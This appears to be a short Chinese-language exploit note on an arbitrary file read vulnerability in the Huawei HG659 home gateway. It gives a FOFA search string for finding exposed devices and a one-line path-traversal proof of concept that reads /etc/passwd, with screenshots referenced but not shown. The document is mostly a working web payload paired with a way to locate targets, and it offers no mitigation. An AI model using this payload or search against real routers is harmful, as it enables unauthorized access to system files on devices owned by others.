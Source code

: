 ## 华为 HG659任意文件读取漏洞

## 漏洞描述

华为 HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> 华为HG659

## FOFA

> app="HUAWEI-Home-Gateway-HG659"

## 漏洞复现

登录页面如下：

![1](resource/华为HG659任意文件读取漏洞/1.png)

###POC

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![2](resource/华为HG659任意文件读取漏洞/2.png)